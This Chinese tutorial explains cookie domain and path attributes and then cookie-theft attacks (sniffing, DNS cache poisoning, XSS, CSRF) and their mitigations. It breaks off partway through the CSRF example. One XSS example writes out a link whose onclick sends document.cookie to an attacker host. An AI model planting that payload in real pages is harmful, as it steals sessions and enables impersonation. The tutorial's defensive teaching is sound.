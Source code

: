 #### 总结

```html
1.domain表示的是cookie所在的域，默认为请求的地址，如网址为www.test.com/test/test.aspx，那么domain默认为www.test.com。而跨域访问，如域A为t1.test.com，域B为t2.test.com，那么在域A生产一个令域A和域B都能访问的cookie就要将该cookie的domain设置为.test.com；如果要在域A生产一个令域A不能访问而域B能访问的cookie就要将该cookie的domain设置为t2.test.com。

2.path表示cookie所在的目录，asp.net默认为/，就是根目录。在同一个服务器上有目录如下：/test/,/test/cd/,/test/dd/，现设一个cookie1的path为/test/，cookie2的path为/test/cd/，那么test下的所有页面都可以访问到cookie1，而/test/和/test/dd/的子页面不能访问cookie2。这是因为cookie能让其path路径下的页面访问。

3.浏览器会将domain和path都相同的cookie保存在一个文件里，cookie间用*隔开。

4.含值键值对的cookie：以前一直用的是nam=value单键值对的cookie，一说到含多个子键值对的就蒙了。现在总算弄清楚了。含多个子键值对的cookie格式是name=key1=value1&key2=value2。可以理解为单键值对的值保存一个自定义的多键值字符串，其中的键值对分割符为&，当然可以自定义一个分隔符，但用asp.net获取时是以&为分割符。
```

### 2 cookie安全

问题：黑客获取到一套用户的cookies来冒充用户的请求，从服务器的角度，它是没法分辨用户和攻击者的。

#### 攻击方式

1. 嗅探cookie

    盗取用户cookie，绕过鉴权
2. cookie喷发

    大量的cookie访问鉴权服务

3. 篡改cookie

    篡改用户信息

#### 1 几种cookie盗用和会话劫持的例子：

传送门：[数字签名 https]()

```html
1 网络窃听(http未加密)

网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

** 解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

2 DNS缓存中毒

如果攻击者可以使DNS缓存中毒，那么攻击者就可以访问用户的Cookie了，例如：攻击者使用DNS中毒来创建一个虚拟的NDS服务h123456.www.demo.com指向攻击者服务器的ip地址。然后攻击者可以从服务器 h123456.www.demo.com/img_01.png 发布图片。用户访问这个图片，由于 www.demo.com和h123456.www.demo.com是同一个子域，所以浏览器会把用户的与www.demo.com相关的cookie都会发送到h123456.www.demo.com这个服务器上，这样攻击者就会拿到用户的cookie搞事情。

一般情况下是不会发生这种情况，通常是网络供应商错误。

3 跨站点脚本XSS

使用跨站点脚本技术可以窃取cookie。当网站允许使用javascript操作cookie的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。

例子：

<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

** 解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

4 跨站请求伪造CSRF

例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如，
```